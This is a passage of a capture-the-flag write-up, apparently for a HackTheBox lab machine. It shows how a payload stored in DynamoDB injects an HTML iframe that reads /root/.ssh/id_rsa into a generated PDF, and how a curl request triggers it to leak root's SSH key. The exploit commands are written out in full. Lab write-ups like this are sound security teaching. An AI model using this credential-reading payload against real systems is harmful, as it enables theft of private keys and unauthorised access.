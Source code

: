Next, we need to create a new table within the DynamoDB instance with a `title` and `data` column. Afterwards, we need to insert 2 key pair values for it, with `title` being set to `Ransomware`, and the `data` field being set to our payload:

{% embed url="https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/getting-started-step-1.html" %}

<pre data-overflow="wrap"><code>$ sudo aws --endpoint-url http://s3.bucket.htb dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5

<strong>$ sudo aws --endpoint-url http://s3.bucket.htb/ dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"&#x3C;html>&#x3C;head>&#x3C;/head>&#x3C;body>&#x3C;iframe src=\"/root/.ssh/id_rsa\">&#x3C;/iframe>&#x3C;/body>&#x3C;/html>"}}' 
</strong></code></pre>

Afterwards, based on the `index.php` code, we need to send a POST request with `action=get_alerts` to run our payload:

```
$ curl -X POST http://127.0.0.1:8000/index.php --data 'action=get_alerts'
```

We can then download the `result.pdf` file back to our machine via `base64` or `scp`. When viewed, this would give us the SSH key we need!

<figure><img src="../../../.gitbook/assets/image (4168).png" alt=""><figcaption></figcaption></figure>

Using this, we can `ssh` into the box:
